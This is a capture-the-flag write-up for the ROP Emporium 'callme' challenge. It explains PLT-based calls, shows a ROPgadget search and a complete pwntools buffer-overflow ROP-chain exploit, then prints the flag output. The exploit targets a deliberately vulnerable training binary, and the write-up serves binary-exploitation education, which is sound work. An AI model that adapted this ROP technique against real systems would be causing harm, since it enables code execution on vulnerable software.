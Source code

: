 # callme

_call me maybe?_

This is where it gets interesting. Remember when I said to research the PLT last writeup? Yeah, this is why.

If you haven't already, read up on how it works. You can do so [here](https://ropemporium.com/guide.html#Appendix%20A), but there are tons of resources out there.

In this challenge, the author makes life easy for us and removes the need for any reversing by telling us the objective:

> You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag. For the x86_64 binary double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

This means we need to control `rdi`, `rsi`, and `rdx`, as parameters to functions are passed in these registers.

Looking at the binary in Cutter, we see the same three functions:

```text
sym.main
sym.pwnme
sym.usefulFunction
```

We also see this:

```text
sym.imp.callme_one
sym.imp.callme_two
sym.imp.callme_three
```

Now, the functions we have to call are outside of the binary. They are located in `libcallme.so`, which was provided with the challenge. This means they are dynamically resolved at runtime as they are called.

Going back to the binary, we'll take a look at `usefulFunction`'s decompilation:

```c
void usefulFunction(void)
{
    callme_three(4, 5, 6);
    callme_two(4, 5, 6);
    callme_one(4, 5, 6);
    exit(1);
    return;
}
```

Well, that's not very useful. Looking at the disassembly only strengthens this:

```assembly
; addresses removed for brevity
; usefulFunction ();
push    rbp
mov     rbp, rsp
mov     edx, 6
mov     esi, 5
mov     edi, 4
call    callme_three ; sym.imp.callme_three
mov     edx, 6
mov     esi, 5
mov     edi, 4
call    callme_two ; sym.imp.callme_two
mov     edx, 6
mov     esi, 5
mov     edi, 4
call    callme_one ; sym.imp.callme_one
mov     edi, 1 ; int status
call    exit ; sym.imp.exit ; void exit(int status)
```

Not only are the functions called in the wrong order, they are also called with the wrong arguments. In fact, we can't change these arguments, because we don't control `edx`, `esi`, or `edi`. We could find a gadget somewhere and `ret` directly to the calls after popping the required values into our registers, but that would be a long and complicated ROP chain.

As it turns out, this function is only here to make sure that the functions get imported by the linker at compile time and their entries get placed in the PLT.

So, instead of jumping to this, we could just jump to their entries in the PLT.

Now, all we need to do is find some gadgets that can pop `rdi`, `rsi`, and `rdx`. The order doesn't matter, as we can craft the buffer overflow to suit the gadget. We can use `ROPgadget` to find such gadgets like so:

```text
$ ROPgadget --binary ./callme | grep rdi

0x0000000000400a3d : add byte ptr [rax], al ; add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x0000000000400a3f : add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x0000000000400a3c : add byte ptr fs:[rax], al ; add byte ptr [rbp + rdi*8 - 1], ch ; call qword ptr [rax + 0x23000000]
0x000000000040093b : lcall [rdi + 0x5e] ; pop rdx ; ret
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
0x00000000004009a3 : pop rdi ; ret
```

Look at that second last result.

```text
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
```

Great. Guess we only need one gadget then.

With this, we can construct our exploit:

```python
from pwn import *

context.arch = "amd64"

# doing this saves us from hardcoding a lot of stuff
elf = context.binary = ELF("./callme")

# case in point:
# we can just lookup the addresses of each function via the symbol table.
# no need to trawl through the PLT looking for them.
CALLMES = [
    p64(elf.symbols.callme_one),
    p64(elf.symbols.callme_two),
    p64(elf.symbols.callme_three),
]

# set the params we need to call the functions with
RDI = p64(0xdeadbeefdeadbeef)
RSI = p64(0xcafebabecafebabe)
RDX = p64(0xd00df00dd00df00d)

# still need to hardcode this though
# pop rdi; pop rsi; pop rdx; ret
GADGET = p64(0x40093c)

# overflow the buffer
payload = b'A' * 40

# since we add the exact same things in the exact same order for each call,
# just use a loop
for i in range(3):
    # first ret to the gadget
    payload += GADGET
    # the gadget will pop rdi
    payload += RDI
    # then pop rsi
    payload += RSI
    # then pop rdx
    payload += RDX
    # then ret to the function
    payload += CALLMES[i]

conn = process("./callme")

conn.recvuntil(b'> ')
conn.send(payload)
recved = conn.recvall()

# pretty print because we can
print(recved.decode("ascii"))
```

Great. We can run this now.

```text
$ python exploit.py

[*] '/home/sammy/Projects/binexp/ropemporium/3-callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process './callme': pid 186777
[+] Receiving all data: Done (104B)
[*] Process './callme' stopped with exit code 0 (pid 186777)
Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

But wait, there's more. This isn't the only thing we can do. We can even use another technique on this executable to not just print a flag, but get a shell. See [here](SHELL.md) for details.
